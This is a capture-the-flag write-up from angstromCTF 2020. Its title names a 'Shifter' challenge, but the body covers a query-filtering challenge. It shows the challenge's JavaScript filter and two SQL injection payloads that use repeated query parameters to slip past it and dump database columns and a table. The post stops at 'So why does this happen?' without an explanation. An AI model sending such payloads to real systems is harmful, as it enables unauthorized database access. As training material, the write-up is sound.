 ```yaml
---
title: "ångstromCTF 2020 - Shifter Writeup"
date: 2020-03-19T19:44:29Z
draft: true
---
```


We are greeted with a simple page,
we can make queries and see the [source](/ctf/angstrom/peculiar_query/peculiar_query.js).

This challenge stumped me, it took days and I wake up in the middle of the night screaming how stupid I am.

Our queries get filtered by the following code:

```js
let censored = false;
for (let i = 0; i < q.length; i++) {
    if (censored || "'-\".".split``.some(v => v == q[i])) {
        censored = true;
        q = q.slice(0, i) + "*" + q.slice(i + 1, q.length);
    }
}
q = q.substring(0, 80);
```

So we cannot make any query and if so, it gets cut down to 80 characters, 
there is no escaping without more Javascript magic.

The solution:

```
?&q=%25' UNION ALL select column_name from information_schema.columns; --&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q='
```

Followed by:

```
?&q=%25' UNION ALL select crime from Criminals; --&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q=&q='
```

So why does this happen?